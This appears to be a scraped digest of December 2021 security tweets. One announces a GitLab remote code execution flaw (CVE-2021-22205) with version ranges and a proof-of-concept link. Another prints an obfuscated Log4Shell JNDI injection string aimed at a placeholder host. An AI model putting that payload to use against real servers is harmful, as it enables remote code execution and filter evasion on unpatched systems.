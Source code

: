 * https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# a_lneylan
**https://twitter.com/a_lneylan/status/1469985146103160832 _at 2021-12-12 10:59:04_**
<blockquote>
CVE-2021-22205 Gitlab Remote Code Execution

11.9 &lt;= Gitlab CE/EE &lt; 13.8.8
13.9 &lt;= Gitlab CE/EE &lt; 13.9.6
13.10 &lt;= Gitlab CE/EE &lt; 13.10.3

PoC：
https://t.co/YFTjvnMZem

#bugbounty #bugbountytips #infosec #infosecurity #cybersecurity
</blockquote>

* https://github.com/0x0021h/expbox/blob/main/CVE-2021-22205.py

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1469982905070125063 _at 2021-12-12 10:50:10_**
<blockquote>
8. ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}

https://t.co/ru5arGB6ZI
</blockquote>

* https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---